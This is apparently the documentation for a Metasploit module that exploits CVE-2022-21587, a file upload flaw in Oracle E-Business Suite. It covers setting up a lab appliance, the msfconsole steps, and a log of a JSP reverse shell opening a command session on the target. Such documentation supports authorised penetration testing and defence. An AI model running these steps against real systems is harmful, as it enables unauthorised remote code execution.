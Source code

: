 ## Vulnerable Application

This module exploits CVE-2022-21587, an arbitrary file upload vulnerability in Oracle
Web Applications Desktop Integrator as shipped with Oracle E-Business Suite (EBS) versions
12.2.3 through to 12.2.11.

The exploit uploads a Java Server Page (JSP) payload in order to achieve code execution and
by default will use the `java/jsp_shell_reverse_tcp` payload.

The Oracle EBS product is shipped as either a standalone appliance based on Linux, or an self
hosted application supporting multiple platforms, including Linux, Windows, Solaris, AIX and
HP-UP. This exploit module has been tested against the Linux based appliance, specifically
version 12.2.10.

A full technical analysis of the vulnerability can be found on
[AttackerKB](https://attackerkb.com/topics/Bkij5kK1qK/cve-2022-21587/rapid7-analysis).

## Target Setup

To setup the Oracle EBS appliance, you must download the appliance files, rebuild the appliance
image and install the appliance as a [VirtualBox](https://www.virtualbox.org/) virtual machine.

* Register an account at [Oracle E-Delivery](https://edelivery.oracle.com/osdc/faces/SoftwareDelivery)
and login to search for the required software, specifically the `Oracle VM Virtual Appliance for
Oracle E-Business Suite`.

* You will be presented with multiple ZIP files to download. These files will be extracted and
concatenated to create a single 70 GB Oracle Virtual Appliance (OVA) file. Instructions on how
to do this, as well as additional configuration instructions, can be found in the extracted
documentation located in `\V1005962-01\Documents\Oracle VM Virtual Appliance for Oracle E-Business
Suite Deployment Guide_Release 12.2.10.html`. Additionally a step by step guide for installation
and setup is available [here](https://blog.rishoradev.com/2021/04/12/oracle-ebs-r12-on-virtualbox/).

* Import the OVA file into VirtualBox. Once this is completed you may power on the virtual appliance.
You will require around 320 GB of hard disk space to complete this operation.

* Follow the instructions displayed in the console to set the default passwords for the `root`
and `oracle` and `applmgr` user accounts.

* Once installation and setup has been completed, you can SSH into the appliance as the user
`oracle` and start the database and application services with the following commands:

```
cd /u01/install/APPS/scripts/
./startdb.sh
./startapps.sh
```

* You can now access the WebLogic server over HTTP port `8000`.

## Verification Steps

From msfconsole perform the following steps:

1. `use exploit/linux/http/oracle_ebs_rce_cve_2022_21587`
2. Set `RHOST` to the target address. The default `RPORT` is 8000.
3. Set `LHOST` and `LPORT` values for the default `java/jsp_shell_reverse_tcp` payload.
4. `check` to ensure the target is vulnerable.
5. `exploit`
6. Verify a command session has been opened and you can execute commands as the `oracle` user.

## Scenarios

### Oracle E-Business Suite 12.2.10 Linux based appliance

```
msf6 > use exploit/linux/http/oracle_ebs_rce_cve_2022_21587 
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > show options

Module options (exploit/linux/http/oracle_ebs_rce_cve_2022_21587):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metaspl
                                       oit/basics/using-metasploit.html
   RPORT    8000             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Oracle EBS on Linux



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > set RHOST 192.168.86.37
RHOST => 192.168.86.37
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > set LHOST 192.168.86.5
LHOST => 192.168.86.5
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > check
[*] 192.168.86.37:8000 - The target appears to be vulnerable. Oracle EBS version 12.2.10 detected.
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > exploit

[*] Started reverse TCP handler on 192.168.86.5:4444 
[*] Targeting the endpoint: /OA_HTML/BneUploaderService
[*] Triggering the payload...
[+] Deleted /u01/install/APPS/fs1/FMW_Home/Oracle_EBS-app1/applications/forms/forms/ygrne.jsp
[*] Command shell session 1 opened (192.168.86.5:4444 -> 192.168.86.37:59288) at 2023-02-10 12:20:43 +0000

id
uid=54321(oracle) gid=54321(oinstall) groups=54321(oinstall),54322(dba) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uname -a
Linux apps 3.10.0-1160.11.1.el7.x86_64 #1 SMP Tue Dec 15 11:58:45 PST 2020 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.37 - Command shell session 1 closed.
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) >
```
